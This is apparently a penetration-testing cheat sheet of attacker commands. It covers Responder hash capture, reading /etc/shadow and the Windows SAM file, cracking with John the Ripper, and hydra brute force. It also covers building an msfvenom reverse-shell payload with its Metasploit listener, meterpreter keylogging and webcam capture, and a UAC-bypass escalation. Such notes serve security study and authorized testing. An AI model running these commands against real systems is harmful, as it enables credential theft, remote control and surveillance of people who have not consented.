 ## System Hacking

### Gain access
1. Password capture
   1. Responder 
      - It is an LLMNR, NBT-NS, and MDNS poisoner. Used to capture password hash when a windows user is doing a network login.
      - `sudo responder -I <network interface name> -dwrv`
      - Hashes in text file at: `/usr/share/responder/logs/XXXX-<IP>.txt`
   2. Passwords of other users
      - Linux: shadow file
        - `cat /etc/shadow`
        - `cat /etc/passwd`
      - Windows: SAM file
        - `C:\Windows\System32\config\SAM`
        - `C:\Windows\System32\config\SYSTEM`
2. Password cracking
   1. John the ripper
      - `sudo john <hash file>`
      - `sudo john --wordlist=<wordlist path> <hash file>`
      - Hash formats: https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats
      - `--rules` for setting password rules (min/max length, lowercase, uppercase, digits, etc.)
3. Password Brute Force

   online password attack, can get locked out, but not for ftp, smb, ssh, rdp, etc.
   1. hydra
      - `hydra -L <username list> -P <password list> <target IP> <service>`
      - `hydra -l <username> -P <password list> <target IP> <service>`
      - `hydra -l <username> -P <password list> <service>://<target IP> -s <port>`
4. Exploit Vulnerabilities
   1. msfvenom: to generate payloads
      - `msfvenom -p <payload> LHOST=<own ip> LPORT=<port> -a x86 -f exe -o <output file>`
      - Ensure file size > 0
   2. Metasploit
      - `msfconsole -q`
        - `>` `search <keyword>`
        - `>` `use <exploit name>`
        - `>` `show options`
        - `>` `set <option name> <value>`
        - `>` `exploit`
   3. Metasploit Example: Windows reverse TCP shell
      - Create payload file: `msfvenom -p windows/shell_reverse_tcp LHOST=<own ip> LPORT=<port> -f exe -o <output file>`
      - Setup listener`msfconsole -q`
        - `>` `use exploit/multi/handler`
        - `>` `set payload windows/shell_reverse_tcp`
        - `>` `set LHOST <own ip>`
        - `>` `set LPORT <port>`
        - `>` `exploit`
        - `>` `background` to move session established to background
        - `>` `sessions i*` list sessions
        - `>` `sessions -i <session id>` interact with session
   4. Armitage: metaspoilt UI
      - When meterpreter session is established, various options are available:
         - access shell
         - browse files
         - screenshot
         - keylogger
         - webcam shot
         - Escalate privileges:
            - `exploit/windows/local/bypassuac_fodhelper`
            - `getsystem -t 1`
